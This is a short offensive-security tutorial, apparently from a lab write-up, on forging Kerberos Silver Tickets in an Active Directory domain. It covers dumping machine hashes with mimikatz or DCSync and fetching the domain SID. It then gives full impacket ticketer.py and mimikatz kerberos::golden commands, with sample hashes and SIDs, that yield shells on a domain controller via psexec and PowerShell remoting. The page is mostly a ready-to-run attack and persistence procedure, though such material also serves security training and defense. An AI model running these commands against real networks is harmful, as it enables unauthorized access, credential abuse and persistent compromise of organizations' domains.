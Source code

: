 # Silver Ticket

Silver Tickets are pretty similar to what we did on Constrained delegation, but rather than asking for a TGS from the domain controler we will generate it ourselves, to generate a ticket we need only two things, the hash of the machine on which we want to access a service, and the SID of the domain, to get the hash of the machine we would have to use DCSync or using mimikatz "lsadump::lsa /patch" once we have system privileges on the domain controler, so this is a persistence technique, there are multiple ways of gettig the SID of the domain, for example we could user Powerview, `Get-DomainSID`, once we have those things we can create our tickets.

### Impacket

To generate a ticket with impacket we use: `ticketer.py -nthash <hash of the machine> -domain-sid <domain SID> -domain <domain name> -spn <service that we want access> <username for the service>`, on this case we generate a ticket for cifs service, so we can run psexec: `ticketer.py -nthash b703d9f3f3125637c9777a4919ee6a5f -domain-sid S-1-5-21-4100948528-2762735150-1331983247 -domain KAIBA-CORP.local -spn cifs/FUSION.KAIBA-CORP.local administrator`.

![](/assets/images/active-directory/silver_impacket.png)

Yes, we could have asked for cifs service on constrained delegation and use impacket to get a shell with psexec.

### Mimikatz

With mimikatz we run the command: `kerberos::golden /domain:<domain name> /sid:<domain sid> /rc4:<hash of the machine> /user:<username for the service> /service:<service that we want access> /target:<machine name> /ptt`, on this case we will get two tickes, one for wsman, and another for http, so we can use powershell remoting: `kerberos::golden /domain:KAIBA-CORP.local /sid:S-1-5-21-4100948528-2762735150-1331983247 /rc4:43ac996d0704892ac6e04841df5d95ad /user:administrator /service:wsman /target:KAIBA-CORP-DC.KAIBA-CORP.local /ptt` and `kerberos::golden /domain:KAIBA-CORP.local /sid:S-1-5-21-4100948528-2762735150-1331983247 /rc4:43ac996d0704892ac6e04841df5d95ad /user:administrator /service:http /target:KAIBA-CORP-DC.KAIBA-CORP.local /ptt`, after that we can get a powershell shell on the DC running: `Enter-PSSession -computername KAIBA-CORP-DC.KAIBA-CORP.local`.
